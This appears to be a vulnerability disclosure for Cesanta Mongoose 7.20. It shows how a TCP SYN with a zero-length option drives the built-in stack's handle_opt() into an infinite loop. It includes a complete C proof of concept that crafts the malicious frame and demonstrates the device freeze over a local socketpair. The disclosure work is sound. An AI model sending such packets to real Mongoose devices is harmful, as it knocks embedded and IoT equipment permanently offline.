

# Mongoose MIP TCP Options Parsing Infinite Loop Leads to Permanent DoS

## Description

The `handle_opt()` function in `/src/net_builtin.c` enters an infinite loop when parsing a TCP option with a zero-length field, permanently freezing the entire Mongoose event loop with a single unauthenticated packet. The function iterates over TCP options and uses the attacker-controlled `optlen` field to advance through the option bytes, but never validates that `optlen` is non-zero. When `optlen` is 0, the loop executes `opts += 0; len -= 0;` on every iteration, and so the pointer never advances, the remaining length never decreases, and the loop condition `len > 0` remains true forever.

This vulnerability is triggered in the initial frame receive path of `mg_mgr_poll()`, before any TCP connection is created, before any protocol parsing (HTTP, MQTT, WebSocket, TLS), and before any authentication. A single TCP SYN packet with a malformed option field is sufficient. Because Mongoose uses a single-threaded event loop by default, the infinite loop freezes the entire device permanently. No existing connections can make progress, no new connections can be accepted, no timers fire, and no recovery is possible without a power cycle or watchdog reset.

## Details

*   **Vendor**: Cesanta

*   **Product**: Mongoose Embedded Web Server / Networking Library

*   **Affected Version**: 7.20 (and likely all prior versions)

*   **Source Repository**: https://github.com/cesanta/mongoose

*   **Component**: `/src/net_builtin.c` (handle_opt function, MIP built-in TCP/IP stack)

*   **Vulnerability Type**:
    * Loop with Unreachable Exit Condition (CWE-835)
    * Out-of-bounds Read (CWE-125)

*   **CVE ID**: Reported to Cesanta

*   **Reported by**: dwbruijn

## Vulnerable Code

The vulnerability is a missing validation of the TCP option length field, causing an infinite loop when `optlen` is zero.

### Vulnerable function: `handle_opt()` (`net_builtin.c:1497-1512`)

```c
static void handle_opt(struct connstate *s, struct tcp *tcp, bool ip6) {
  uint8_t *opts = (uint8_t *) (tcp + 1);
  int len = 4 * ((int) (tcp->off >> 4) - ((int) sizeof(*tcp) / 4));
  s->dmss = ip6 ? 1220 : 536;
  while (len > 0) {
    uint8_t kind = opts[0], optlen = 1;
    if (kind != 1) {
      if (kind == 0) break;
      optlen = opts[1];          // <-- attacker controls this byte
      if (kind == 2 && optlen == 4)
        s->dmss = (uint16_t) (((uint16_t) opts[2] << 8) + opts[3]);
    }
    opts += optlen;              // <-- if optlen == 0, pointer doesn't advance
    len -= optlen;               // <-- if optlen == 0, length doesn't decrease
  }                              // <-- loop never terminates
}
```

The function has two flaws:

1. **Infinite loop (CWE-835)**: When `kind` is not 0 (End) or 1 (NOP), `optlen` is read from `opts[1]`. If the attacker sets this byte to 0, both `opts += optlen` and `len -= optlen` become no-ops, and the loop runs forever.

2. **Out-of-bounds read (CWE-125)**: When `len == 1` (one byte remaining), the code reads `opts[1]` to get the option length, which is one byte past the end of the options area. This is a secondary issue but can leak stack/heap data or cause a fault on memory-protected platforms.

### Where in the connection lifecycle

The infinite loop occurs **before any TCP connection is created**. It is triggered during SYN processing in the frame receive path:

```
mg_mgr_poll()           ← the single-threaded event loop entry point
  → mg_tcpip_poll()     ← MIP network processing
    → mg_tcpip_rx()     ← raw frame receive
      → rx_ip()         ← IPv4 dispatch
        → rx_tcp()      ← TCP segment processing
          → getpeer(mgr, pkt, true)   ← finds the LISTENING socket (not a connection)
            → handle_opt()            ← *** INFINITE LOOP HERE ***
              → backlog_insert()      ← never reached
              → tx_tcp_ctrlresp()     ← never reached (SYN-ACK never sent)
```

The two call sites that invoke `handle_opt()` are:

1. **SYN on a listening port** (`net_builtin.c:1561`): When a TCP SYN arrives at any port Mongoose is listening on, `handle_opt()` is called to extract the MSS before the connection is added to the backlog. The connection object does not exist yet at this point.

2. **SYN-ACK on a connecting socket** (`net_builtin.c:1527`): When Mongoose initiates an outbound connection and receives a SYN-ACK, `handle_opt()` is called before the connection is marked as established. A malicious server can trigger this path.

### Why this might cause a freeze

Mongoose is **single-threaded by default**. The application calls `mg_mgr_poll()` in a loop, and this single function:

- Receives and dispatches all network frames (TCP, UDP, ARP, ICMP)
- Processes all protocol state machines (HTTP, MQTT, WebSocket, TLS, DNS)
- Fires all application timers and callbacks
- Manages all connection lifecycles (accept, read, write, close)

When `handle_opt()` enters an infinite loop, `mg_mgr_poll()` never returns. Every connection on the device, every timer, and every pending operation is frozen. On bare-metal embedded systems (the primary target for MIP), there is no OS to kill the process -- the device is permanently bricked until power-cycled.

Needless to say, if Mongoose was running in a multithreaded env, the attack is a trivial resource exhaustion leading to DoS.

## PoC

The PoC uses a SOCK_DGRAM socketpair as a virtual Ethernet link to the MIP stack, requiring no root privileges or TAP interfaces. It first verifies the event loop is healthy (~3 million polls/500ms), confirms TCP connectivity with a normal SYN, then sends one malicious SYN with `optlen=0`. The event loop freezes immediately.

**PoC** (`tcp_opt_dos.c`):

```c
// PoC: Mongoose MIP TCP Options Parsing Infinite Loop (DoS)
//
// Demonstrates that Mongoose's built-in TCP/IP stack (MIP) enters an
// infinite loop when processing a TCP packet with a malformed option
// where the option length field is 0.  A single crafted TCP SYN packet
// from any host on the network causes the entire Mongoose event loop
// to freeze permanently.
//
// Build:
//   gcc -o tcp_opt_dos tcp_opt_dos.c ../mongoose.c -I.. \
//       -DMG_ENABLE_TCPIP=1 -lpthread
//
// Run:
//   ./tcp_opt_dos

#include "mongoose.h"

#include <poll.h>
#include <pthread.h>
#include <sys/socket.h>

// ---------------------------------------------------------------------------
// Virtual network topology
//
//   MIP device (victim):  192.168.0.2   MAC 02:00:01:02:03:77
//   Attacker:             192.168.0.50  MAC DE:AD:BE:EF:00:01
//
// The socketpair acts as a virtual Ethernet link.  s_fds[0] is the MIP
// driver side, s_fds[1] is the attacker's side.
// ---------------------------------------------------------------------------
static int s_fds[2];

#define MIP_IP      MG_IPV4(192, 168, 0, 2)
#define MIP_MASK    MG_IPV4(255, 255, 255, 0)
#define MIP_GW      MG_IPV4(192, 168, 0, 1)
#define ATTACKER_IP MG_IPV4(192, 168, 0, 50)
#define LISTEN_PORT 8080

static const uint8_t mip_mac[]      = {0x02, 0x00, 0x01, 0x02, 0x03, 0x77};
static const uint8_t attacker_mac[] = {0xDE, 0xAD, 0xBE, 0xEF, 0x00, 0x01};

// Poll counter: incremented after each mg_mgr_poll() return.
// When handle_opt() loops forever, mg_mgr_poll() never returns,
// so this counter stops incrementing, that's how we detect the hang.
static volatile uint64_t s_poll_count = 0;
static volatile bool s_stop = false;

// ---------------------------------------------------------------------------
// MIP network driver
// ---------------------------------------------------------------------------
static size_t drv_tx(const void *buf, size_t len, struct mg_tcpip_if *ifp) {
  ssize_t n = write(s_fds[0], buf, len);
  return n > 0 ? (size_t) n : 0;
  (void) ifp;
}

static size_t drv_rx(void *buf, size_t len, struct mg_tcpip_if *ifp) {
  struct pollfd pfd = {s_fds[0], POLLIN, 0};
  if (poll(&pfd, 1, 0) <= 0) return 0;
  ssize_t n = read(s_fds[0], buf, len);
  return n > 0 ? (size_t) n : 0;
  (void) ifp;
}

static bool drv_poll(struct mg_tcpip_if *ifp, bool s1) {
  (void) ifp;
  return s1;
}

// ---------------------------------------------------------------------------
// HTTP handler, just needs to exist so MIP has a listening port
// ---------------------------------------------------------------------------
static void http_cb(struct mg_connection *c, int ev, void *ev_data) {
  if (ev == MG_EV_HTTP_MSG) {
    mg_http_reply(c, 200, "", "OK\n");
  }
  (void) ev_data;
}

// ---------------------------------------------------------------------------
// MIP event loop thread
//
// Runs mg_mgr_poll() in a loop, incrementing s_poll_count after each
// successful return.  When the malicious SYN triggers the infinite loop
// inside handle_opt(), mg_mgr_poll() never returns, and s_poll_count
// freezes
// ---------------------------------------------------------------------------
static void *mip_thread(void *arg) {
  struct mg_mgr *mgr = (struct mg_mgr *) arg;
  while (!s_stop) {
    mg_mgr_poll(mgr, 1);
    s_poll_count++;
  }
  return NULL;
}

// ---------------------------------------------------------------------------
// Raw frame construction
// ---------------------------------------------------------------------------
#pragma pack(push, 1)
struct eth_hdr { uint8_t dst[6], src[6]; uint16_t type; };
struct arp_pkt {
  uint16_t htype, ptype; uint8_t hlen, plen; uint16_t oper;
  uint8_t sha[6]; uint32_t spa; uint8_t tha[6]; uint32_t tpa;
};
struct ip4_hdr {
  uint8_t ver_ihl, tos; uint16_t len, id, frag;
  uint8_t ttl, proto; uint16_t csum; uint32_t src, dst;
};
struct tcp_hdr {
  uint16_t sport, dport; uint32_t seq, ack;
  uint8_t off, flags; uint16_t win, csum, urg;
};
#pragma pack(pop)

static uint16_t checksum(const void *data, size_t len) {
  const uint16_t *p = (const uint16_t *) data;
  uint32_t sum = 0;
  for (size_t i = 0; i < len / 2; i++) sum += p[i];
  if (len & 1) sum += ((const uint8_t *) data)[len - 1];
  while (sum >> 16) sum = (sum & 0xFFFF) + (sum >> 16);
  return (uint16_t) ~sum;
}

static uint16_t tcp_csum(struct ip4_hdr *ip, void *tcp_start,
                         size_t tcp_len) {
  uint8_t pseudo[12 + 128];
  memcpy(pseudo, &ip->src, 4);
  memcpy(pseudo + 4, &ip->dst, 4);
  pseudo[8] = 0;
  pseudo[9] = 6;
  pseudo[10] = (uint8_t) (tcp_len >> 8);
  pseudo[11] = (uint8_t) tcp_len;
  memcpy(pseudo + 12, tcp_start, tcp_len);
  return checksum(pseudo, 12 + tcp_len);
}

static void send_arp_reply(int fd, const uint8_t *smac, uint32_t sip,
                           const uint8_t *dmac, uint32_t dip) {
  uint8_t frame[14 + 28];
  memset(frame, 0, sizeof(frame));

  struct eth_hdr *eth = (struct eth_hdr *) frame;
  struct arp_pkt *arp = (struct arp_pkt *) (frame + 14);

  memcpy(eth->dst, dmac, 6);
  memcpy(eth->src, smac, 6);
  eth->type = htons(0x0806);

  arp->htype = htons(1);
  arp->ptype = htons(0x0800);
  arp->hlen  = 6;
  arp->plen  = 4;
  arp->oper  = htons(2);
  memcpy(arp->sha, smac, 6);
  arp->spa = sip;
  memcpy(arp->tha, dmac, 6);
  arp->tpa = dip;

  write(fd, frame, sizeof(frame));
}

// Construct and send a TCP frame with optional TCP options.
// opts/opts_len must be 0 or a multiple of 4 bytes (padded).
static void send_tcp_with_opts(int fd, const uint8_t *smac,
                               const uint8_t *dmac, uint32_t sip,
                               uint32_t dip, uint16_t sport, uint16_t dport,
                               uint32_t seq, uint32_t ackn, uint8_t flags,
                               const uint8_t *opts, size_t opts_len) {
  size_t tcp_total = 20 + opts_len;
  size_t frame_len = 14 + 20 + tcp_total;
  uint8_t frame[256];
  memset(frame, 0, sizeof(frame));

  struct eth_hdr *eth = (struct eth_hdr *) frame;
  struct ip4_hdr *ip  = (struct ip4_hdr *) (frame + 14);
  struct tcp_hdr *tcp = (struct tcp_hdr *) (frame + 34);
  uint8_t *opt_area   = frame + 34 + 20;

  // Ethernet header
  memcpy(eth->dst, dmac, 6);
  memcpy(eth->src, smac, 6);
  eth->type = htons(0x0800);

  // IPv4 header
  ip->ver_ihl = 0x45;
  ip->ttl = 64;
  ip->proto = 6;
  ip->len = htons((uint16_t) (20 + tcp_total));
  ip->src = sip;
  ip->dst = dip;
  ip->csum = checksum(ip, 20);

  // TCP header
  tcp->sport = htons(sport);
  tcp->dport = htons(dport);
  tcp->seq   = htonl(seq);
  tcp->ack   = htonl(ackn);
  tcp->off   = (uint8_t) ((tcp_total / 4) << 4); 
  tcp->flags = flags;
  tcp->win   = htons(65535);

  // TCP options
  if (opts_len > 0 && opts != NULL) {
    memcpy(opt_area, opts, opts_len);
  }

  // TCP checksum
  tcp->csum = tcp_csum(ip, tcp, tcp_total);

  write(fd, frame, frame_len);
}

// Send a simple TCP frame with no options
static void send_tcp_frame(int fd, const uint8_t *smac, const uint8_t *dmac,
                           uint32_t sip, uint32_t dip, uint16_t sport,
                           uint16_t dport, uint32_t seq, uint32_t ackn,
                           uint8_t flags) {
  send_tcp_with_opts(fd, smac, dmac, sip, dip, sport, dport, seq, ackn, flags,
                     NULL, 0);
}

// Drain pending frames from the network side
static void drain_frames(int fd) {
  uint8_t buf[2048];
  for (int i = 0; i < 50; i++) {
    struct pollfd pfd = {fd, POLLIN, 0};
    if (poll(&pfd, 1, 20) > 0) read(fd, buf, sizeof(buf));
  }
}

// Read one frame with timeout
static ssize_t net_read(int fd, uint8_t *buf, size_t len, int timeout_ms) {
  struct pollfd pfd = {fd, POLLIN, 0};
  if (poll(&pfd, 1, timeout_ms) <= 0) return -1;
  return read(fd, buf, len);
}

// ---------------------------------------------------------------------------
// Main
// ---------------------------------------------------------------------------
int main(void) {
  printf("[SETUP] MIP device : 192.168.0.2   (MAC 02:00:01:02:03:77)\n");
  printf("[SETUP] Attacker   : 192.168.0.50  (MAC DE:AD:BE:EF:00:01)\n");
  printf("[SETUP] Server port: %d\n\n", LISTEN_PORT);

  // Create virtual Ethernet link
  if (socketpair(AF_UNIX, SOCK_DGRAM, 0, s_fds) < 0) {
    perror("socketpair");
    return 1;
  }

  // Initialize Mongoose with MIP
  struct mg_mgr mgr;
  mg_log_set(MG_LL_NONE);
  mg_mgr_init(&mgr);

  struct mg_tcpip_driver driver = {
      .tx = drv_tx, .poll = drv_poll, .rx = drv_rx};
  struct mg_tcpip_if mif = {.driver = &driver,
                            .ip = MIP_IP,
                            .mask = MIP_MASK,
                            .gw = MIP_GW};
  memcpy(mif.mac, mip_mac, 6);
  mg_tcpip_init(&mgr, &mif);

  // Start HTTP listener (gives MIP a listening TCP port)
  char url[32];
  snprintf(url, sizeof(url), "http://0.0.0.0:%d", LISTEN_PORT);
  mg_http_listen(&mgr, url, http_cb, NULL);

  // Start MIP event loop in background thread
  pthread_t tid;
  pthread_create(&tid, NULL, mip_thread, &mgr);

  // Wait for MIP to initialize
  usleep(200000);

  // Tell MIP the attacker's MAC via ARP
  int fd = s_fds[1];
  send_arp_reply(fd, attacker_mac, ATTACKER_IP, mip_mac, MIP_IP);
  usleep(100000);

  // Drain startup frames
  drain_frames(fd);

  // ---------------------------------------------------------------------------
  // Step 1: Verify the event loop is running normally
  // ---------------------------------------------------------------------------
  uint64_t count_before = s_poll_count;
  usleep(500000);
  uint64_t count_running = s_poll_count;
  uint64_t polls_per_500ms = count_running - count_before;

  printf("[STEP 1] Event loop health check\n");
  printf("  Poll count over 500ms: %llu (event loop is alive)\n\n",
         (unsigned long long) polls_per_500ms);

  if (polls_per_500ms == 0) {
    printf("  ERROR: Event loop not running. Aborting.\n");
    s_stop = true;
    pthread_join(tid, NULL);
    mg_mgr_free(&mgr);
    return 1;
  }

  // ---------------------------------------------------------------------------
  // Step 2: Send a NORMAL SYN (no options) to prove connectivity works
  // ---------------------------------------------------------------------------
  printf("[STEP 2] Sending normal TCP SYN (no options) to verify connectivity\n");
  send_tcp_frame(fd, attacker_mac, mip_mac, ATTACKER_IP, MIP_IP,
                 11111, LISTEN_PORT, 5000, 0, 0x02 /* SYN */);

  // Look for SYN-ACK response
  uint8_t buf[2048];
  bool got_synack = false;
  for (int i = 0; i < 100 && !got_synack; i++) {
    ssize_t n = net_read(fd, buf, sizeof(buf), 50);
    if (n < 54) continue;
    struct eth_hdr *eth = (struct eth_hdr *) buf;
    if (ntohs(eth->type) != 0x0800) continue;
    struct ip4_hdr *ip = (struct ip4_hdr *) (buf + 14);
    if (ip->proto != 6) continue;
    struct tcp_hdr *tcp = (struct tcp_hdr *) (buf + 34);
    if (ntohs(tcp->sport) == LISTEN_PORT && (tcp->flags & 0x12) == 0x12) {
      got_synack = true;
    }
  }

  if (got_synack) {
    printf("  Got SYN-ACK: MIP TCP stack is responsive\n\n");
  } else {
    printf("  WARNING: No SYN-ACK received (continuing anyway)\n\n");
  }

  // Drain any remaining frames
  drain_frames(fd);

  // ---------------------------------------------------------------------------
  // Step 3: Send the MALICIOUS SYN with optlen=0
  // ---------------------------------------------------------------------------

  // Malicious TCP options: kind=3 (Window Scale), optlen=0
  //
  // In handle_opt():
  //   kind = 0x03  → not 0 (End), not 1 (NOP)
  //   optlen = opts[1] = 0x00
  //   opts += 0   → pointer doesn't advance
  //   len -= 0    → length doesn't decrease
  //   → infinite loop
  //
  // Padded to 4 bytes for 32-bit TCP header alignment.
  uint8_t malicious_opts[4] = {
      0x03,  // kind = Window Scale (not 0 or 1, so optlen is read)
      0x00,  // optlen = 0  ← THE BUG: loop advances by 0 bytes
      0x00,  // padding
      0x00,  // padding
  };

  printf("[STEP 3] Sending MALICIOUS TCP SYN\n");
  printf("  TCP options: [kind=0x03, optlen=0x00, pad, pad]\n");
  printf("  Data offset: 6 (24 bytes = 20 header + 4 options)\n");
  printf("  This triggers handle_opt() at net_builtin.c:1561\n");
  printf("  The loop: opts += 0, len -= 0 → infinite loop\n\n");

  // Record poll count right before the attack
  uint64_t count_pre_attack = s_poll_count;

  send_tcp_with_opts(fd, attacker_mac, mip_mac, ATTACKER_IP, MIP_IP,
                     12345, LISTEN_PORT,  // source port, target's listen port
                     1000, 0,             // arbitrary seq, no ack
                     0x02,                // SYN flag
                     malicious_opts, sizeof(malicious_opts));

  printf("[STEP 4] Waiting 2 seconds to detect hang...\n");
  sleep(2);

  uint64_t count_post_attack = s_poll_count;
  uint64_t polls_during_attack = count_post_attack - count_pre_attack;

  // ---------------------------------------------------------------------------
  // Result
  // ---------------------------------------------------------------------------
  printf("\n=== Result ===\n");
  printf("  Polls/500ms before attack: %llu\n",
         (unsigned long long) polls_per_500ms);
  printf("  Polls in 2s after attack:  %llu\n",
         (unsigned long long) polls_during_attack);

  // Race window note: A small number of polls (~10 on my end) may complete between
  // recording count_pre_attack and the MIP thread's drv_rx() picking up
  // the injected frame.  This is because mg_mgr_poll(mgr, 1) returns
  // quickly when drv_rx() returns 0 (no frame available yet), so the MIP
  // thread completes several empty poll cycles before the next drv_rx()
  // call finds the malicious SYN in the socketpair buffer. Once that one
  // mg_mgr_poll() call enters handle_opt(), it never returns, and the
  // counter freezes permanently. Normal rate is ~3 million polls per
  // 500ms, so a drastically lower number in 2 seconds confirms the hang.
  // I was using 500 as an upper bound but 100 should be enough
  if (polls_during_attack < 500) {
    printf("\n*** INFINITE LOOP CONFIRMED ***\n");
    printf("The event loop froze after processing the malicious SYN.\n");
    printf("mg_mgr_poll() never returned — the device is permanently hung.\n");
    printf("\nNote: ~%llu poll cycles completed in the race window between\n",
           (unsigned long long) polls_during_attack);
    printf("recording the counter and drv_rx() picking up the frame.\n");
    printf("Normal rate: ~%llu polls/500ms. This is a >99.999%% reduction.\n",
           (unsigned long long) polls_per_500ms);
    printf("\nAttack requirements:\n");
    printf("  - One TCP SYN packet to any open port\n");
    printf("  - No handshake needed (packet is processed on first SYN)\n");
    printf("  - No authentication, no connection state\n");

    // The MIP thread is stuck in handle_opt()'s infinite loop.
    // We can't join it or free MIP state safely so just exit.
    _exit(0);
  }

  printf("\nEvent loop is still running (polls_during_attack=%llu).\n",
         (unsigned long long) polls_during_attack);
  printf("Unexpected on vulnerable version.\n");

  s_stop = true;
  pthread_join(tid, NULL);
  mg_tcpip_free(&mif);
  mg_mgr_free(&mgr);
  close(s_fds[0]);
  close(s_fds[1]);
  return 1;
}
```

### Triggering the vulnerability

Create a `poc` directory in the mongoose repo directory. Copy `tcp_opt_dos.c` into the `poc` directory.

```bash
# Build PoC
cd poc
gcc -o tcp_opt_dos tcp_opt_dos.c ../mongoose.c -I.. \
    -DMG_ENABLE_TCPIP=1 -lpthread

# Run
./tcp_opt_dos
```

**Output:**



The PoC confirms the event loop was processing ~3 million polls per 500ms before the attack. After sending one TCP SYN with `optlen=0`, only ~1 poll completed in 2 seconds (a race window artifact: a small number of empty poll cycles complete between recording the counter and `drv_rx()` picking up the injected frame from the socketpair buffer; once `mg_mgr_poll()` enters `handle_opt()`, it never returns). This is a >99.999% reduction in event loop throughput, confirming complete and permanent device freeze.

## Potential Impact

A single unauthenticated TCP SYN packet permanently freezes the entire Mongoose device. The attack requires no handshake, no connection state, and no knowledge of existing connections -- just the IP address and any open TCP port number of the target.

**Direct consequences:**

*   **Complete device freeze**: Because Mongoose is single-threaded by default, the infinite loop inside `mg_mgr_poll()` halts all processing. Every active connection (HTTP, MQTT, WebSocket, TLS), every pending operation, every timer, and every callback is frozen. The device becomes completely unresponsive.

*   **Permanent until power cycle**: The loop has no timeout, no iteration limit, and no external break condition. On bare-metal embedded systems, there is no operating system to kill the process. The device remains frozen until physically power-cycled or a hardware watchdog triggers a reset. If no watchdog is configured (common in development and many production deployments), the device is permanently bricked.

*   **Single packet, no handshake**: The vulnerability is triggered during initial SYN processing, before the TCP three-way handshake completes. The attacker does not need to establish a connection, authenticate, or maintain any state. One 58-byte Ethernet frame (14 + 20 + 24) is sufficient.

*   **Pre-authentication, pre-protocol**: The infinite loop occurs in the raw TCP frame processing path, before any application protocol is parsed. TLS encryption, HTTP authentication, MQTT credentials, and WebSocket handshakes are all irrelevant -- the device is frozen before any of these layers are reached.

*   **Trivially repeatable**: If a watchdog resets the device, the attacker can immediately send another malicious SYN to freeze it again, effectively keeping the device offline indefinitely.

**Amplifying factors specific to Mongoose's MIP stack:**

1. **No rate limiting on SYN processing**: MIP processes every incoming SYN immediately with no SYN cookies, no SYN queue limits, and no backoff. The malicious packet is handled on the first `mg_mgr_poll()` cycle that receives it.

2. **Broad attack surface**: Any open TCP port triggers the vulnerability. HTTP servers, MQTT brokers, WebSocket endpoints, and raw TCP listeners are all equally vulnerable. The attacker does not need to know which application protocol is running.

3. **Network-reachable on IoT deployments**: While MIP is designed for embedded systems on local networks, many IoT devices using Mongoose are exposed to the internet via port forwarding, cloud tunnels, or direct public IPs, extending the attack surface beyond the local subnet.
